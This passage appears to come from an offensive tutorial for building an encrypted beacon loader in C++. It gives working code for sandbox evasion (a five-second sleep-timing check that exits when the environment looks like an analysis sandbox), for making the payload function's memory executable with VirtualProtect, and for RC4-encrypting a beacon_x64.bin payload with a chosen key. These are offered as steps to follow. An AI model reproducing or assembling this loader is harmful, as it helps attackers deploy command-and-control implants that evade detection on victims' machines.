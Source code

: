 
![img-description](/assets/images/Ekran Görüntüsü (39).png)

### Sandbox Evasion:

 The program sleeps for 5 seconds using std::this_thread::sleep_for(). Then, it checks if the sleep time was less than or equal to 4.5 seconds (if the sleep was interrupted or unusually fast, indicating it might be running in a sandbox or virtual machine environment). If so, the program terminates (exit(0)).

    int main(int argc, char **argv)
    {    
        // Simple sandbox evasion
        auto start = std::chrono::system_clock::now();
        std::this_thread::sleep_for(std::chrono::seconds(5));
        auto end = std::chrono::system_clock::now();
        std::chrono::duration<double> elapsed_seconds = end - start;
        if (elapsed_seconds.count() <= 4.5) {
            exit(0);
        }

### Memory Protection:

VirtualProtect() changes the memory protection of the RunData function to PAGE_EXECUTE_READWRITE, which allows the code to be both read and executed. This is typically used for functions that need to be modified or executed dynamically.
If VirtualProtect() fails, it prints the error code using GetLastError().

    // Run our payload function
    const char* key = "advapi32.dll"; // modify with your key
    int len = 200774; // modify with payload length
    DWORD oldProtect = 0;
    if (!VirtualProtect((LPVOID)&RunData, len, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("Error: %d", GetLastError());
    }

here is what we need changing things. first of all we ran our code while doing rc4

    ➜  beacon python3 rc4.py advapi32.dll beacon_x64.bin 

so its okey but there is something different **payload length** i told u we need it so u just need ls -la and grab urs.

    ➜  beacon ls -la
    total 312
    drwxrwxr-x 2 root root   4096 Nov 26 18:20 .
    drwxrwxr-x 3 root root   4096 Nov 20 18:18 ..
    -rw-rw-r-- 1 root root 307200 Nov 26 18:19 beacon_x64.bin

here is it we need to change with (307200)

![img-description](/assets/images/Ekran Görüntüsü (40).png)

alright, our beacon.cpp is ready lets add new customization for our Application.
